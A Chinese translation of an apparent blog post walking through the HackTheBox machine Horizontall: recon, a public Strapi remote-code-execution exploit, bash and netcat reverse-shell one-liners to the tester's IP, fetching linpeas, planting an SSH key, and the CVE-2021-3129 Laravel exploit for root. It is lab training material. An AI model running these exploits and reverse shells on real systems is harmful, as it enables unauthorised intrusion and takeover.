# 来自 HackTheBox 的 Horizontall 详细演练

> 原文：<https://infosecwriteups.com/horizontall-from-hackthebox-detailed-walkthrough-f66f7193e70?source=collection_archive---------4----------------------->

展示完成盒子所需的所有工具和技术。

# 机器信息



Horizontall 在 HackTheBox 上被评为易机。我们最初的扫描显示只有两个开放的端口。在端口 80 上只有一个静态网站，但是 vhosts 的枚举发现了一个隐藏的子域。需要进一步搜索以发现子域上的文件夹。从那里我们发现了一个易受攻击的 Strapi 版本，并使用公共漏洞来获得初始访问权限。LinPEAS 揭示了一个可疑端口在机器内部运行。在确认它是 Laravel 之后，我们建立了一个 SSH 隧道从 Kali 访问它。通过检查，我们发现这是 Laravel 的一个易受攻击的版本，因此我们使用一个公共漏洞来获取根标志。

所需的技能是网络和操作系统枚举。学到的技能是寻找和利用公共漏洞来获得访问权。

[](https://www.hackthebox.eu/home/machines/profile/374) [## 破解盒子::渗透测试实验室—horizontal

### 登录 Hack The Box 平台，让您的笔测试和网络安全技能更上一层楼！

www.hackthebox.eu](https://www.hackthebox.eu/home/machines/profile/374) 

# 初步侦察

像往常一样，让我们从 Nmap 开始:



盒子的 Nmap 扫描

首先将机器的 IP 地址添加到我们的 hosts 文件中:

```
┌──(root💀kali)-[~/htb/horizontall]
└─# echo "10.10.11.105 horizontall.htb" >> /etc/hosts
```

现在只看端口 80:


Horizontall 网站

我们发现一个静态网页，源代码中没有任何有趣的内容。让我们寻找隐藏的文件:



盒子的 Feroxbuster 扫描

# 子域枚举

这些文件夹中没有突出的内容，请查找子域:



vhosts 的 Gobuster 扫描

我们发现了一个名为 api-prod 的子域，添加到 hosts 文件:

```
┌──(root💀kali)-[~]
└─# echo "10.10.11.105 api-prod.horizontall.htb" >> /etc/hosts
```

看看这个子域上的网站，它只是一个空白的页面。Wappalyzer 显示它将 Strapi 视为底层 CMS:



api-prod 站点的 Wappalyzer 信息

# Web 枚举

让我们再列举一些:



api-prod 子域的 Feroxbuster 扫描

这还差不多！

查看评论文件夹，我们看到有一个 API 接口:



api-prod 站点的 JSON 视图

# Strapi 登录

查看 admin 文件夹，我们看到一个登录名:



Strapi 登录页面

快速搜索一下谷歌就会发现这个版本是这样的:

```
┌──(root💀kali)-[~/htb/horizontall]
└─# curl http://api-prod.horizontall.htb/admin/strapiVersion
{"strapiVersion":"3.0.0-beta.17.4"}
```

检查 Exploit-DB 发现一个未经验证的 RCE:



Searchsploit 扫描 strapi 漏洞

让我们抓住最后一个漏洞来看看:

```
┌──(root💀kali)-[~/htb/horizontall]
└─# searchsploit -m multiple/webapps/50239.py
  Exploit: Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE)
      URL: https://www.exploit-db.com/exploits/50239
     Path: /usr/share/exploitdb/exploits/multiple/webapps/50239.py
File Type: Python script, ASCII text executable
Copied to: /root/htb/horizontall/50239.py
```

# 剥削斯特拉皮

阅读脚本，我们只需执行它并指向网站:

```
┌──(root💀kali)-[~/htb/horizontall]
└─# python3 50239.py http://api-prod.horizontall.htb 
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit

[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGci<SNIP>swArk82os
$>
```

该漏洞重置了管理员用户的密码，并给了我们一个命令提示:

```
$> whoami
[+] Triggering Remote code execution
[*] Remember this is a blind RCE don't expect to see output
{"statusCode":400,"error":"Bad Request","message":[{"messages":[{"id":"An error occurred"}]}]}
```

好吧，所以我不能用它来输出到终端，让我们尝试一个外壳:

```
$> bash -i >& /dev/tcp/10.10.14.214/4444 0>&1
[+] Triggering Remote code execution
[*] Remember this is a blind RCE don't expect to see output
{"statusCode":400,"error":"Bad Request","message":[{"messages":[{"id":"An error occurred"}]}]}
```

# 反向外壳

我没有从那一个得到连接，尝试另一个类型:

```
$> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.214 4444 >/tmp/f
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
```

这一次我们抓住了贝壳:

```
┌──(root💀kali)-[~]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.214] from (UNKNOWN) [10.10.11.105] 55312
/bin/sh: 0: can't access tty; job control turned off
```

首先升级到合适的终端:

```
$ python -c 'import pty;pty.spawn("/bin/bash")'
strapi@horizontall:~/myapi$ ^Z
zsh: suspended  nc -nlvp 4444
┌──(root💀kali)-[~]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 4444
strapi@horizontall:~/myapi$
```

# 用户标志

我们是谁？我们能得到用户标志吗:

```
strapi@horizontall:~/myapi$ id
uid=1001(strapi) gid=1001(strapi) groups=1001(strapi)

strapi@horizontall:~/myapi$ ls -l /home
drwxr-xr-x 8 developer developer 4096 Aug  2 12:07 developer

strapi@horizontall:~/myapi$ ls -l /home/developer/
-rw-rw----  1 developer developer 58460 May 26 11:59 composer-setup.php
drwx------ 12 developer developer  4096 May 26 12:21 myproject
-r--r--r--  1 developer developer    33 Sep 30 08:59 user.txt

strapi@horizontall:~/myapi$ cat /home/developer/user.txt 
<HIDDEN>
```

# 权限提升

好吧，那很简单！关于特权升级，让我们把 LinPEAS 拉过来加速一下。如果需要，从[这里](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)获取最新版本。在 Kali 上启动一个 web 服务器来托管它:

```
┌──(root💀kali)-[~/htb/horizontall]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

切换到盒子，拉过来运行:

```
strapi@horizontall:/dev/shm$ wget http://10.10.14.214/linpeas.sh
--2021-09-30 16:23:47--  http://10.10.14.214/linpeas.sh
Connecting to 10.10.14.214:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 473371 (462K) [text/x-sh]
Saving to: ‘linpeas.sh’
linpeas.sh.1    100%[=============>] 462.28K  2.05MB/s    in 0.2s    
2021-09-30 16:23:47 (2.05 MB/s) - ‘linpeas.sh’ saved [473371/473371]

strapi@horizontall:/dev/shm$ chmod +x linpeas.sh       

strapi@horizontall:/dev/shm$ ./linpeas.sh > linpeas.txt
grep: write error: Broken pipe
sh: printf: I/O error
grep: write error: Broken pipe
. . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . 
```

这需要一段时间才能完成。输出很长，但是 LinPEAS 用红色突出显示了有趣的区域，所以这一部分很突出:

```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
tcp        0      0 0.0.0.0:80          0.0.0.0:*       LISTEN  -
tcp        0      0 0.0.0.0:22          0.0.0.0:*       LISTEN  -
tcp        0      0 127.0.0.1:1337      0.0.0.0:*       LISTEN  1830/node /usr/bin/
tcp        0      0 127.0.0.1:8000      0.0.0.0:*       LISTEN  -                   
tcp        0      0 127.0.0.1:3306      0.0.0.0:*       LISTEN  -                   
tcp6       0      0 :::80               :::*            LISTEN  -                   
tcp6       0      0 :::22               :::*            LISTEN  -
```

我可以通过使用 netstat 更快地找到它:



显示开放端口的 netstat

# Laravel 检测

哦好吧。让我们从机器上使用 curl 来看看本地端口 8000:

```
strapi@horizontall:~/myapi$ curl -sSL -D - http://localhost:8000 
-o /dev/null
HTTP/1.1 200 OK
Host: localhost:8000
Date: Thu, 30 Sep 2021 20:45:41 GMT
Connection: close
X-Powered-By: PHP/7.4.22
Content-Type: text/html; charset=UTF-8
Cache-Control: no-cache, private
Date: Thu, 30 Sep 2021 20:45:41 GMT
```

标题显示有一个 web 服务器运行在这个内部可访问的端口上。如果我们请求默认页面，我们可以选择一个叫做 Laravel 的东西:



使用 curl 查看本地主机上的网页

# SSH 端口转发

因此，我们有一个运行在内部端口上的网站，这意味着我们需要使用 Kali 上的端口转发来允许我们从本地浏览器访问该网站。我们以前在许多机器上见过这种情况，第一步是创建一个 SSH 密钥对:

```
┌──(root💀kali)-[~/htb/horizontall]
└─# ssh-keygen          
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): /root/htb/horizontall/id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/htb/horizontall/id_rsa
Your public key has been saved in /root/htb/horizontall/id_rsa.pub
The key fingerprint is:
SHA256:roCdl+6laUp63MTjLU4+V3J9C1XAAhjx8mrgmdhpFco root@kali
The key's randomart image is:
+---[RSA 3072]----+
|        o+.. ... |
|        ..  . . .|
|        o .  . . |
|     . . +    .  |
|     .E S .. .   |
|   o =+O..o o .  |
|  ..*+@o=+   o . |
|   ooB**o     .  |
|  ...=O+         |
+----[SHA256]-----+
```

获取公钥并创建一个 echo 语句，我们可以将它粘贴到机器上:

```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDg0PqOGRanCQeaQ8E<SNIP>
gYbDv/iV4j/BDTJCrtfwlbskA0qveVguz15rTc09Fr4NE= root@kali" 
>> authorized_keys
```

这只是将 id_rsa.pub 文件的内容回显到一个名为 authorized_keys 的文件中。将此复制到剪贴板，然后切换回框:

```
strapi@horizontall:~$ cd .ssh/
strapi@horizontall:~/.ssh$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDg0PqOGRanCQeaQ8E<SNIP>
gYbDv/iV4j/BDTJCrtfwlbskA0qveVguz15rTc09Fr4NE= root@kali" 
>> authorized_keys
```

使用机器上 authorized_keys 文件中 Kali 的公钥，我们现在可以在用户 strapi 设置端口转发的同时进行 SSH:

```
┌──(root💀kali)-[~/htb/horizontall]
└─# ssh -i id_rsa -L 8000:localhost:8000 strapi@10.10.11.105

Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-154-generic x86_64)
Last login: Thu Sep 30 19:55:29 2021 from 10.10.14.210
$
```

# 拉勒韦尔漏洞利用

上面的命令只是说，在端口 8000 上本地接收的任何流量都通过 SSH 转发到端口 8000 上的 box。现在，我们可以使用 Kali 上的本地浏览器访问盒子上的网站:



Laravel 网站

查看该网站，我们可以确认它运行的是 Laravel v8 (PHP v7.4.18)。搜索漏洞发现[这个](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3129) CVE 说:

```
Ignition before 2.5.2, as used in Laravel and other products,
allows unauthenticated remote attackers to execute arbitrary code 
because of insecure usage of file_get_contents() and file_put_contents().
This is exploitable on sites using debug mode with Laravel before 8.4.2.
```

我们在 8.4.2 之前的版本上，在 GitHub 上看一下就发现了[这个](https://github.com/nth347/CVE-2021-3129_exploit) POC。我们简单地克隆并在机器上运行它，让我们来试试:

```
┌──(root💀kali)-[~/htb/horizontall]
└─# git clone https://github.com/nth347/CVE-2021-3129_exploit.git
Cloning into 'CVE-2021-3129_exploit'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 9 (delta 1), reused 3 (delta 0), pack-reused 0
Receiving objects: 100% (9/9), done.
Resolving deltas: 100% (1/1), done.

┌──(root💀kali)-[~/htb/horizontall]
└─# cd CVE-2021-3129_exploit

┌──(root💀kali)-[~/htb/horizontall/CVE-2021-3129_exploit]
└─# chmod +x exploit.py

┌──(root💀kali)-[~/htb/horizontall/CVE-2021-3129_exploit]
└─# ./exploit.py http://localhost:8000 Monolog/RCE1 id
[i] Trying to clear logs
[+] Logs cleared
[i] PHPGGC not found. Cloning it
Cloning into 'phpggc'...
remote: Enumerating objects: 2598, done.
remote: Counting objects: 100% (940/940), done.
remote: Compressing objects: 100% (528/528), done.
remote: Total 2598 (delta 379), reused 822 (delta 287), done.
Receiving objects: 100% (2598/2598), 390.29 KiB | 540.00 KiB/s
Resolving deltas: 100% (1021/1021), done.
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

uid=0(root) gid=0(root) groups=0(root)

[i] Trying to clear logs
[+] Logs cleared
```

# 根标志

这很好也很简单。漏洞运行并给了我们根 id。让我们抓住旗子:

```
┌──(root💀kali)-[~/htb/horizontall/CVE-2021-3129_exploit]
└─# ./exploit.py http://localhost:8000 Monolog/RCE1 "cat /root/root.txt"
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

a<HIDDEN>6

[i] Trying to clear logs
[+] Logs cleared
```

那是一个有趣的盒子，我希望你喜欢它。

下次见。

如果你喜欢这篇文章，请给我一两个掌声(这是免费的！)

推特—【https://twitter.com/pencer_io】T4
网站— [https://pencer.io](https://pencer.io/)

*原载于 2022 年 1 月 30 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-horizontall)*。*

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)